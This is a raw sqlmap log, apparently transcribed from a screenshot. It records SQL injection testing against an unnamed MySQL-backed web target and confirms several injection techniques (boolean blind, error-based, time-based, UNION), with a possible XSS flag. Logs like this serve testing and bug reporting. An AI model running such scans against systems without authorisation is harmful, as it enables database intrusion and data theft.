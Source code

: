 ```txt
[13:40:31] [WARNING] it seems that you've provided empty parameter value(s) for testing. Please, always use only valid parameter values so sqlmap could be able to run properly
[13:40:31] [INFO] testing connection to the target URL
[13:40:31] [INFO] checking if the target is protected by some kind of WAF/IPS
[13:40:31] [INFO] testing if the target URL content is stable
[13:40:32] [INFO] target URL content is stable
[13:40:32] [INFO] testing if URI parameter '#1*' is dynamic
[13:40:32] [WARNING] URI parameter '#1*' does not appear to be dynamic
[13:40:32] [INFO] heuristic (basic) test shows that URI parameter '#1*' might be injectable (possible DBMS: 'MySQL')
[13:40:32] [INFO] heuristic (XSS) test shows that URI parameter '#1*' might be vulnerable to cross-site scripting (XSS) attacks
[13:40:32] [INFO] testing for SQL injection on URI parameter '#1*'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] 
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 
[13:40:34] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[13:40:35] [WARNING] reflective value(s) found and filtering out
[13:40:35] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[13:40:35] [INFO] testing 'Generic inline queries'
[13:40:35] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[13:40:35] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[13:40:35] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)'
[13:40:35] [INFO] URI parameter '#1*' appears to be 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)' injectable (with --not-string="Me")
[13:40:35] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[13:40:35] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[13:40:35] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[13:40:35] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[13:40:35] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[13:40:35] [INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
[13:40:35] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[13:40:35] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[13:40:35] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[13:40:35] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[13:40:35] [INFO] URI parameter '#1*' is 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
[13:40:35] [INFO] testing 'MySQL inline queries'
[13:40:35] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[13:40:35] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[13:40:35] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[13:40:35] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[13:40:35] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK - comment)'
[13:40:35] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK)'
[13:40:35] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[13:40:45] [INFO] URI parameter '#1*' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[13:40:45] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[13:40:45] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[13:40:45] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[13:40:45] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[13:40:45] [INFO] target URL appears to have 2 columns in query
[13:40:46] [INFO] URI parameter '#1*' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
```